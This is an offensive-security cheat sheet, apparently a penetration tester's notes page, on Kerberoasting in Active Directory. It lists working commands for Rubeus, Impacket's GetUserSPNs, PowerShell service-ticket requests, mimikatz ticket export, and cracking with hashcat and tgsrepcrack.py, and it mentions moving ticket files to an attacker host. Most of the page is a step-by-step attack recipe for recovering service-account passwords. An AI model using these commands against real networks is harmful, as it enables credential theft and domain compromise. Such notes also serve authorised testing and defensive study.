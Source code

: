 # Kerberoasting

#### STILL EDITING

#### Kerberoasting

> **Kerberoasting** allows a user to request a service ticket for any service with a registered **SPN** then use that ticket to crack the service password.

* **Rubeus** (local):

```powershell
.\Rubeus.exe kerberoast
```

* **Impacket** (remote):

```bash
GetUserSPNs.py <Domain>/<username>:<password> -dc-ip <IP> -request
```

* Cracking Kerberos 5 etype 23 TGS-REP:

```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

### Service Tickets

Add System.IdenityModel namespace:

```powershell
Add-Type -AssemblyName System.IdentityModel
```

Request the service ticket:

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN'
```

Display all cached service tickets

```powershell
klist
```

Now with the service ticket of the IIS SPN created and saved to memory we can download it from memory with mimikatz:

```
kerberos::list /export
```

This creates file ending with `.kirbi` on disk. According to the Kerberos protocol service ticket is encrypted using the SPN password hash. We can transfer this `.kirbi` file to out attacker host.

If we can perform Kerberoasting we can get the password hash of the SPN and from that we can crack the plaintext password of the service account.

Let's install kerberoast:

```
sudo apt install kerberoast
```

Now with the kerberoast package installed we can run `tgsrepcrack.py` to crack the password of the service account:

```shell
python tgsrepcrack.py wordlist.txt filename.kirbi
```
